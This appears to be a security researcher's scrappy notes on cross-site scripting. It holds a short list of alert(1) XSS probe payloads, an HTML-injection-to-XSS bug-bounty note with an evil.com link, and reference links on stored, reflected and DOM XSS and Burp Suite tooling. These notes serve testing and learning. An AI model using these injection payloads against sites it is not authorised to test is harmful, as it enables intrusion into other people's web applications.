 "><img src onerror=alert(1)>
"autofocus onfocus=alert(1)//
</script><script>alert(1)</script>
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)

Try it on:
- URL query, fragment & path;
- all input fields.


 Ramadan Mubarak Smiling face with 3 hearts
       ALLHUMDULILLAH

BUG : HTML INJECTION to XSS

1) try : <a href="https://evil.com")>click</a>
2) HTML injection successfully working.
3) Now try escalate to XSS : <a href=javascript:alert('Fauzan_hacker')>click</a>



### react xss

浅谈 React 中的 XSS 攻击
https://www.infoq.cn/article/yVgbxJCyJklf9eqg71cL
DOM-based XSS 与存储性 XSS、反射型 XSS 有什么区别？
https://www.zhihu.com/question/26628342
在易用上，存储型XSS > DOM - XSS > 反射型 XSS。
在检测上，目前我还没有看到比较好的针对存储型xss的检测手段，而domxss和反射型xss均有比较好的检测手段了。
你用burp Suite或者其他WEB数据包分析工具分析一下就会发现：
存储型XSS：你发送一次带XSS代码的请求，以后这个页面的返回包里都会有XSS代码；
反射型XSS：你发送一次带XSS代码的请求，只能在当前返回的数据包中发现XSS代码；
DOM型XSS：你发送一次带XSS代码的请求，在返回包里压根儿就找不到XSS代码的影子；
DOM Based Cross-site Scripting Vulnerability
https://www.netsparker.com/blog/web-security/dom-based-cross-site-scripting-vulnerability/
The article also explains why the traditional XSS remediation methods do not work and what you can do to ensure that your web applications are not vulnerable to DOM based cross-site scripting vulnerability.

12 | 从0到1：你的第一个GUI自动化测试
https://time.geekbang.org/column/article/11913
21 个 React 性能优化技巧
https://www.infoq.cn/article/KVE8xtRs-uPphptq5LUz

## TOOLS

### burpsuite xss-validator


burpsuite检测xss漏洞 burpsuite实战指南
https://cloud.tencent.com/developer/article/1353325
如何使用开源组件解决web应用中的XSS漏洞
https://t0data.gitbooks.io/mysecuritybook/content/chapter1.html
